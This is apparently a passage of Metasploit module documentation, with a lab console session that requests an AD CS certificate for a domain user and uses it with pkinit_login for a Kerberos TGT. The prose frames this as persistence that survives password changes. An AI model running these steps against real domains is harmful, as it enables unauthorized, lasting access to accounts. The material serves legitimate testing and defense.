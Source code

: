 ```
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: normal@daforest.com
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216145113_default_unknown_windows.ad.cs_961069.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216145113_default_unknown_windows.ad.cs_961069.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

At this point we now have a certificate saved locally which we can use to authenticate to the domain as our current user. This allows persistance in the event that the user changes their password.
Even if the user changes their password, so long as the issued certificate is still valid, has not expired, and has not been revoked, we can still use that to log into the domain as the user for whom
the certificate was issued.

We can then use the `pkinit_login` module to gain a Kerberos ticket granting ticket (TGT) as the `normal@daforest.com` user.

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > use auxiliary/admin/kerberos/pkinit_login
msf6 auxiliary(admin/kerberos/pkinit_login) > set CERT_FILE /home/gwillcox/.msf4/loot/20221216145113_default_unknown_windows.ad.cs_961069.pfx
CERT_FILE => /home/gwillcox/.msf4/loot/20221216145113_default_unknown_windows.ad.cs_961069.pfx
msf6 auxiliary(admin/kerberos/pkinit_login) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/kerberos/pkinit_login) > show options

Module options (auxiliary/admin/kerberos/pkinit_login):

   Name       Current Setting                  Required  Description
   ----       ---------------                  --------  -----------
   CERT_FILE  /home/gwillcox/.msf4/loot/20221  yes       File containing a certificate (*.pfx) to authenticate w
              216145113_default_unknown_windo            ith
              ws.ad.cs_961069.pfx
   CERT_PASS                                   no        Password for the Certificate file
   DOMAIN                                      no        Override domain in certificate file
   RHOSTS     172.30.239.85                    yes       The target host(s), see https://github.com/rapid7/metas
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT      88                               yes       The target port
```